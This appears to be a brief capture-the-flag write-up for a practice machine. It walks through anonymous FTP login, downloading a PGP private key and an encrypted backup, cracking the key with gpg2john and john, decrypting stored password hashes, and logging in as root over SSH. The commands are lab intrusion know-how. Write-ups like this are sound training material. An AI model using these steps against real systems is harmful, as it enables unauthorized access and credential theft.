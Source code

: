 # User flag

Nmap shows that ports 21 and 22 are open, and that anonymous login is allowed

Login to ftp server

```bash
ftp IP_Address
```

Navigate through the directories, `home>melious` 

We have a `user.txt` file

Download the file using

```bash
get user.txt
```

User flag done

# Root flag

Exploring more, we see  `notread` directory, inside which there were `backup.pgp` and `private.asc` 

Download these files

```bash
get backup.pgp
get private.asc
```

We can crack the `private.asc` file using:

```bash
gpg2john private.asc > hash.txt 
```

Then, we can crack the password

After this, 

```bash
gpg --import private.asc
gpg --decrypt backup.pgp > decrypted
```

It seems that it was a backup for password hash

Crack it using john

SSH in the machine as root

Flag captured
